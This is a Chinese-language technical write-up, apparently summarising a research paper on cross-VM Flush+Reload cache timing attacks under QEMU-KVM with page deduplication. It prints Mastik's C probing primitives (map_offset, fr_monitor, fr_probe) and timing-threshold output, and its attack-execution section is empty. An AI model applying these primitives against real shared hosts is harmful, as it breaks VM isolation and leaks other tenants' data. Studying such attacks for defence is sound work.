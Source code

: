 # Cross-VM Flush+Reload Attack[^1]

本文分析了虚拟化环境中侧信道攻击的生命周期，深入分析了环境、攻击设置、攻击执行以及攻击利用等方面，复现跨虚拟机的 Flush+Reload 缓存计时攻击。

主要两部分：攻击方法和结果分析。

攻击方法逐步解释了跨虚拟机 F+R 攻击的细节，包括攻击环境、硬件、操作系统、软件、攻击代码和攻击执行的细节。在 Linux 上实现。

然后讨论了攻击者如何收集和分析结果，结果集分析和实时监控两种方法。

## 攻击方法论

三个阶段，setup、attack、analysis。

### 攻击环境设置

宿主机和虚拟机都是 Ubuntu 16.04.1, QEMU-KVM v2.6.2 当时最新的版本，使用默认设置，KSM 默认开启。

受害者虚拟机运行下面提到的 *Hello* 程序，攻击者虚拟机上有攻击程序、分析工具以及 *Hello* 程序的副本。

### 寻找目标地址

缓存侧信道攻击的目标是程序中的特定地址，对应攻击者感兴趣的代码。选择地址很重要，代码相邻或时间位置都可能影响结果。比如，受害者运行一个循环，攻击者以循环内或附近的地址为目标，在循环的持续时间内，攻击者将不断地收到定时攻击的反馈。攻击者可以据此监视循环的持续时间，但如果每次运行函数只需要反馈一次，则需要将地址指向函数开头或结尾，每次运行只执行一次。

还有就是选择地址不能太接近另一个无关的函数代码，如果调用了这个无关函数，就可能导致误报。一般是根据空间和时间局部性原理，将整个页面加载到 LLC 中，这些页中的一些缓存行会被进一步加载到 L1 和 L2。

Gruss[^2] 等人开发了一种通过精确猜测自动定位感兴趣地址的方法。它们的方法从整个目标程序中的一个地址集开始，当触发想要监视的功能时，观察每一个地址。未触发的地址从测试集中删除，直到地址集所包含的地址可以指示希望监视的功能。

### Mastik 框架

Yuval[^3] 开发了 Mastik 框架，提供了侧信道攻击的实现。可以在虚拟机之间部署 Mastik 的 Flush+Reload 攻击，不需要额外的技术或代码。0.02 版本包含了以下几种侧信道攻击：

- Prime+Probe on the L1 data cache 
- Prime+Probe on the L1 instruction cache 
- Prime+Probe on the Last-Level Cache 
- Flush+Reload 
- Flush+Flush (new in 0.02) 
- Performance degradation attack (new in 0.02).

使用 Mastik 的 F+R 库，可以创建一个对象，将目标代码加载到内存中，存储要探测的目标地址，然后执行 F+R 攻击。主要函数由 `map_offset` 将目标代码加载到内存，`fr_monitor` 将目标地址添加到受监视的地址列表，`fr_probe` 执行攻击并返回访问目标地址所需的大致周期数。

#### `map_offset`

```c
void *map_offset(const char *file, uint64_t offset) {
  int fd = open(file, O_RDONLY);
  if (fd < 0)
    return NULL;
  
  char *mapaddress = MAP_FAILED;
#ifdef HAVE_MMAP64
  mapaddress = mmap(0, sysconf(_SC_PAGE_SIZE), PROT_READ, MAP_PRIVATE, fd, offset & ~(sysconf(_SC_PAGE_SIZE) -1));
#else
  mapaddress = mmap(0, sysconf(_SC_PAGE_SIZE), PROT_READ, MAP_PRIVATE, fd, ((off_t)offset) & ~(sysconf(_SC_PAGE_SIZE) -1));
#endif
  close(fd);
  if (mapaddress == MAP_FAILED)
    return NULL;
  return (void *)(mapaddress+(offset & (sysconf(_SC_PAGE_SIZE) -1)));
}
```

`map_offset` 函数将目标代码作为只读文件加载到内存中，实际由 `mmap` 系统调用完成映射。通过指定页对齐的偏移将文件的特定部分映射到内存中。

#### `fr_monitor`

```c
int fr_monitor(fr_t fr, void *adrs) {   
    assert(fr != NULL);   
    assert(adrs != NULL);   
    if (vl_find(fr->vl, adrs) >= 0)     
        return 0;   
    vl_push(fr->vl, adrs);   
    return 1; 
} 

// vlist.h
typedef struct vlist *vlist_t;  
struct vlist {   
    int size;   
    int len;   
    void **data; 
};

vlist_t vl_new(); 
void vl_free(vlist_t vl);  
inline void *vl_get(vlist_t vl, int ind); 
void vl_set(vlist_t vl, int ind, void *dat); 
int vl_push(vlist_t vl, void *dat); 
void *vl_pop(vlist_t vl); 
void *vl_poprand(vlist_t vl); 
void *vl_del(vlist_t vl, int ind); 
inline int vl_len(vlist_t vl); 
void vl_insert(vlist_t vl, int ind, void *dat); 
int vl_find(vlist_t vl, void *dat);
```

`fr_monitor` 接受一个地址，将其添加到要监视的目标地址数组中，每个地址都用 `fr_probe` 探测计时，为每个地址返回单独的计时结果。

#### `fr_probe`

```c
void fr_probe(fr_t fr, uint16_t *results) {
  assert(fr != NULL);
  assert(results != NULL);
  int l = vl_len(fr->vl);
  for (int i = 0; i < l; i++)  {
    void *adrs = vl_get(fr->vl, i);
    int res = memaccesstime(adrs);
    results[i] = res > UINT16_MAX ? UINT16_MAX : res;
    clflush(adrs);
  }
  l = vl_len(fr->evict);
  for (int i = 0; i < l; i++) 
    clflush(vl_get(fr->evict, i));
}
```

`fr_probe` 遍历目标地址列表，测量每个地址的访问时间。

为了帮助设置环境和执行攻击，Mastik 提供了收集系统信息的工具，如 *FR-threshold* 用来测试从 LLC 和内存访问数据的时间。

```shell
$ ./FR-threshold
             :  Mem  Cache
Minimum      :    67    37
Bottom decile:   179    67
Median       :   190    70
Top decile   :   229    77
Maximum      : 35587 20129
```

### Cross-VM Cache Timing Attack





[^1]:Danny Philippe-Jankovic and Tanveer A Zia, Breaking VM Isolation – An In-Depth Look into the Cross VM Flush Reload Cache Timing Attack, IJCSNS 2017.
[^2]:Daniel Gruss, Raphael Spreitzer, and Stefan Mangard, Cache Template Attacks: Automating Attacks on Inclusive Last-Level Caches, USENIX 2015.
[^3]:Yuval Yarom et al, https://github.com/Secure-AI-Systems-Group/Mastik.

